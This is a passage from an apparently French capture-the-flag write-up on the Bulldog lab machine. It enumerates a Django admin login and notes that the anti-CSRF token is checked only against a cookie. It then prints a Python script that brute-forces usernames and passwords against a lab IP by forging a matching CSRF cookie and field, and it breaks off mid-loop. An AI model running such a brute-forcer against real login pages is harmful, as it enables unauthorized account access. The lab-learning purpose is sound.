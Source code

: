 Sur /dev/ on trouve un message intéressant de la part d'un certain *Alan Brooke*, nouveau chef des développeurs, qui informe sa nouvelle team sur les changements demandés par le CEO : fini les CMS et PHP, place à du Django maison, du MongoDB à venir et un soit disant antivirus commandé qui tournerait toutes les minutes (ça sent la tache CRON...)  

Dans cette page, on trouve aussi différents noms de contacts de la team dev que l'on garde de côté pour en faire une wordlist.  

![List of contacts from Bulldog Industries website](https://raw.githubusercontent.com/devl00p/blog/master/images/bulldog1/contacts.png)

Enfin on trouve un lien vers un web shell mais ce dernier nous répond *"Please authenticate with the server to use Web-Shell".*  

Après avoir essayé de passer quelques noms de paramètres évidents (username, user, login, etc) force est de constater que ce n'est pas par là qu'il faut passer.  

Sous /admin/, l'autre URL trouvée, une mire de login marquée Django nous fait de l’œil.  

![Django based login page](https://raw.githubusercontent.com/devl00p/blog/master/images/bulldog1/django_admin.png)

On remarque dans le code HTML que le formulaire a un champ anti Cross Site Request Forgery mais après plusieurs essais avec les developer tools ouvertes on voit bien que la valeur du champ ne change pas du moment que la session est ouverte.  

Pire : il semble que le token anti-CSRF est juste conservé comme cookie et que le formulaire compare uniquement la valeur passée par formulaire avec la valeur passée par cookie (pas de stockage côté serveur donc).  

Let me in
---------

Il suffit alors d'écrire un petit outil de force brute qui spécifie pour chaque tentative de login un cookie et un champ anti-csrf identique (ici forcé à "lol").  

```python
import requests
from bs4 import BeautifulSoup

users = set()
with open("users.txt") as fd:
    for line in fd:
        user = line.strip()
        if user:
            users.add(user.lower())

sess = requests.session()

for user in sorted(users):
    print("Trying user {}".format(user))

    with open("passlist.txt") as fd:
        for line in fd:
            password = line.strip()
            if not password:
                continue

            response = sess.post(
                    "http://192.168.3.190/admin/login/", 
                    data={
                        "username": user,
                        "password": password,
                        "csrfmiddlewaretoken": "lol"
                    },
                    headers={"Cookie": "csrftoken=lol"}
            )

```